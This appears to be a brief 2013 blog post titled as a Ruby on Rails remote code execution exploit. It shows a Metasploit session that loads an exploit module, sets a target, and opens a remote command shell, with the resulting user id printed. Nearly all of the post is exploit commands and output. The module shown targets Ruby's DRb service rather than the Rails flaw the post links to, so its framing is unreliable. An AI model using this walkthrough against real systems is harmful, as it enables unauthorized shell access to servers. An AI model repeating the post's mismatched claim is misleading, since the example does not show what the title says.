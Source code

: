 +++
date = "2013-01-11T14:09:58+00:00"
draft = false
tags = ["security", "rails", "ruby"]
title = "Ruby on rails remote code execution exploit"
+++
Ruby on rails websites [are highly vulnerable](https://community.rapid7.com/community/metasploit/blog/2013/01/09/serialization-mischief-in-ruby-land-cve-2013-0156?x=1).

Exploiting a rails site looks like this:

    $ msfconsole
    msf> use exploit/linux/misc/drb_remote_codeexec
    msf  exploit(drb_remote_codeexec) > set URI druby://localhost:45074
    msf  exploit(drb_remote_codeexec) > exploit
    [*] Started reverse double handler
    [*] trying to exploit instance_eval
    < snip >
    [*] Matching...
    [*] B is input...
    [*] Command shell session 1 opened (192.168.0.4:4444 -> 192.168.0.4:53299) at 2013-01-09 13:06:39 -0600
    id
    uid=1001(www) gid=1001(www) groups=1001(www)